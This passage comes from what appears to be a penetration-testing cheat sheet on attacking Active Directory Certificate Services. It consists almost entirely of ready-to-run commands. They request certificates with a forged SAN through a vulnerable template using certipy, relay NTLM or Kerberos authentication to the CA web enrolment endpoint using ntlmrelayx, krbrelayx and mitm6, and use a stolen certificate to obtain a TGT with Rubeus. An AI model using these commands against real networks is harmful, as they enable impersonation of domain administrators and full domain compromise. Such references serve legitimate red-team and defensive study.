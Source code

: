 ### Linux

```bash
# Verify if the flag is set
certipy find -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -stdout | grep "User Specified SAN"

#To specify a user account in the SAN
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

#To specify a computer account in the SAN
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -template 'vulnerable template' -dns 'dc.contoso.local'
```

## HTTP Endpoint - ESC8

If the HTTP endpoint is up on the CA and it accept NTLM authentication, it is vulnerable to NTLM or Kerberos relay.

### NTLM Relay

```bash
# Prepare relay
ntlmrelayx -t "http://CA/certsrv/certfnsh.asp" --adcs --template "Template name"
# Find a way to leak the machine or user Net-NTLM hash (Printerbug, Petitpotam, PrivExchange, etc)
```

### Kerberos Relay

It is possible with the last versions of **mitm6** and **krbrelayx**.

```bash
#Setup the relay
sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.domain.local --adcs --template Machine

#Run mitm6
sudo mitm6 --domain domain.local --host-allowlist target.domain.local --relay CA.domain.local -v
```

## Pass-The-Certificate

### PKINIT

With a certificate valid for authentication, it is possible to request a TGT via the **PKINIT** protocol

#### Windows

```powershell
# Information about a cert file
certutil -v -dump admin.pfx

# From a Base64 PFX
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:cert.pfx /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```
